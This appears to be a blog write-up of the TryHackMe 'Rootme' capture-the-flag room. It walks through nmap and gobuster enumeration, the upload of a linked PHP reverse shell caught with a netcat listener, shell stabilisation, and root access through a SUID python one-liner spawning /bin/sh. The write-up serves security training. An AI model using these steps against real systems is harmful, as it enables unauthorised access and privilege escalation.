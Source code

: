 ```yaml
---
title: "Rootme"
date: 2023-06-01 
img_path: ../../assets/img/Posts/rootme
image: rootme.png
categories: [Tryhackme, Easy]
tags: [nmap, enumeration, gobuster, gtfobins, netcat]     # TAG names should always be lowercase
---
```


> **[Rootme](https://tryhackme.com/room/rrootme)** is a fairly simple linux box. We shall start with `nmap` scan to see the ports open on the machine. We would then use `gobuster` for directory brute force and from there we would find where you can upload a file. So we shall upload a reverse shell script which will give us the initial access on the system. Finally we shall do privilege escalation by exploiting the `SUID` of one of the files to get root privileges.
{: .prompt-tip }

## Enumeretion

We will begin with port scanning to know which ports are open. We shall use `nmap` . We have used `-sC` for default scripts, `-sV` to enumerate all versions, `-oA` to output all format in a file called `initial` and finally it’s `IP` address. Here is the results:

```bash
└─$ nmap -sC -sV -oA initial 10.10.151.224    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 11:31 EAT
Nmap scan report for 10.10.151.224
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.88 seconds
```

Well `Port 80` is open so we shall use `gobuster` for directory brute force and here is it’s results:

```bash
└─$ gobuster dir -u http://10.10.151.224/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.151.224/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/01 11:30:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.151.224/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.151.224/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.151.224/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.151.224/uploads/]
Progress: 4713 / 4714 (99.98%)===============================================================
2023/06/01 11:33:20 Finished
===============================================================
```

Well, we have a directory called `/panel` and if we go there we would see that we can upload some file. Since the website is running on `php` we need to find a `php` exploit that will give us a reverse shell.
![panel](panel.png)_panel_

## Initial access

We used the same exploit that was previously used on the [LazyAdmin](https://yrncollo.com/posts/LazyAdmin/) challenge to gain initial access. Change the `IP` and the `Port` that `netcat` will be listening from. The exploit can be found at the following GitHub repository: `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`.

```bash
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

Well we have gotten shell and we are `www-data` . So we need to upgrade our shell so that we have a stable shell.

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
zsh: suspended  nc -lvnp 9001
```

Press `Ctrl + z` to background the session then:

```bash
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

bash-4.4$ export TERM=xterm
bash-4.4$
```

## Privilege Escalation

After gaining access as `www-data`, we need to escalate our privileges to gain root access. We can start by searching for files with the `SUID` bit set using the following command:

```bash
find / -perm /4000 2>/dev/null

```

This will show us all the files with the SUID bit set. We can then use [GTFOBins](https://gtfobins.github.io/) to find ways to exploit these files. In this case, Python was not set correctly and we can exploit it by using this from `gtfobins`:


```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```

Once we have a root shell, we can navigate to the `/root` directory and read the `root.txt` file to get the flag.

```
# cd /root
# ls
root.txt
# cat root.txt
THM{changed_the_flag}
#

```
> Yeah that's it... We have successfully hacked into rootme machine and if you have any questions regarding the box you can ask on the comment section. **HAPPY HACKING CHEERS** ;)
{: .prompt-tip }

